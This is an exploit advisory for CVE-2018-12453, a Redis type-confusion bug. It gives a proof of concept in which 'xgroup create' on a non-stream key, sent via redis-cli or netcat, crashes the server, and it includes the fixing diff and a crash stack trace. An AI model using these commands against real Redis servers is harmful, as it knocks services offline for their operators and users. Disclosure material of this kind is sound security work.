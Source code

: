 # Exploit Title: Redis 5.0 Denial of Service
# Date: 2018-06-13
# Exploit Author: Fakhri Zulkifli (@d0lph1n98)
# Vendor Homepage: https://redis.io/
# Software Link: https://redis.io/download
# Version: 5.0
# Fixed on: 5.0
# CVE : CVE-2018-12453

Type confusion in the xgroupCommand function in t_stream.c in redis-server in Redis before 5.0 allows remote attackers to cause denial-of-service via an XGROUP command in which the key is not a stream.


PoC:
$ ./src/redis-server

# on another bash
$ ./src/redis-cli -p 1234
127.0.0.1:1234> set a 123
OK
127.0.0.1:1234> xgroup create a b $
Error: Connection reset by peer  <— segfault'ed
127.0.0.1:1234>

The bug also could be triggered via netcat
$ nc 127.0.0.1 1234
set a 123
+OK
xgroup create a b $  <— segfault’ed after this line


@@ -1576,7 +1576,7 @@ NULL
     /* Lookup the key now, this is common for all the subcommands but HELP. */
     if (c->argc >= 4) {
robj *o = lookupKeyWriteOrReply(c,c->argv[2],shared.nokeyerr);
-         if (o == NULL) return;
+         if (o == NULL || checkType(c,o,OBJ_STREAM)) return;
         s = o->ptr;
         grpname = c->argv[3]->ptr;


  #0 0x6d0706 in logStackContent /home/user/redis/src/debug.c:732:45
  #1 0x6d3917 in sigsegvHandler /home/user/redis/src/debug.c:1089:5
  #2 0x7f65d736e38f  (/lib/x86_64-linux-gnu/libpthread.so.0+0x1138f)
  #3 0x804afc in streamLookupCG /home/user/redis/src/t_stream.c:1502:12
  #4 0x805b36 in xgroupCommand /home/user/redis/src/t_stream.c:1584:19
  #5 0x58ded7 in call /home/user/redis/src/server.c:2298:5
  #6 0x591c70 in processCommand /home/user/redis/src/server.c:2580:9
  #7 0x5e2d98 in processInputBuffer /home/user/redis/src/networking.c:1325:17
  #8 0x565612 in aeProcessEvents /home/user/redis/src/ae.c:443:17
  #9 0x56614c in aeMain /home/user/redis/src/ae.c:501:9
  #10 0x59da71 in main /home/user/redis/src/server.c:3992:5
  #11 0x7f65d6d9d82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
  #12 0x43da38 in _start (/home/user/redis/src/redis-server+0x43da38)